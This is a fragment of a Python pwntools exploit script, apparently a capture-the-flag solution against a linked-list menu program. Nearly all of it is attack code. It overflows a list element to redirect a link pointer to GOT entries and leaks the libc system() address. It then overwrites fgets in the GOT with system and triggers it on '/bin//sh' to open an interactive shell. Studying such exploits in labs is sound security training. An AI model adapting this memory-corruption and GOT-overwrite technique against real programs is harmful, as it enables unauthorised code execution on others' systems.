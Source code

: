 ```py
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Overflow element pointer with got.system address
# This is because we need libc leak for x64 stack align
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'3')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', (b'\x00' * 64) + flat([elf.got.system, 0x51]))

# View list (leak libc.system() address)
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b'3: ')
system = unpack(io.recv()[4:10].ljust(8, b'\x00'))
info("leaked got_system: %#x", system)

# Modify element in list
io.sendline(b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
# Overwrite got.fgets with system (+1 for for stack alignment)
io.sendlineafter(b'>>>', flat(system + 1))

# See if we've got a shell
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Got Shell?
io.interactive()
```
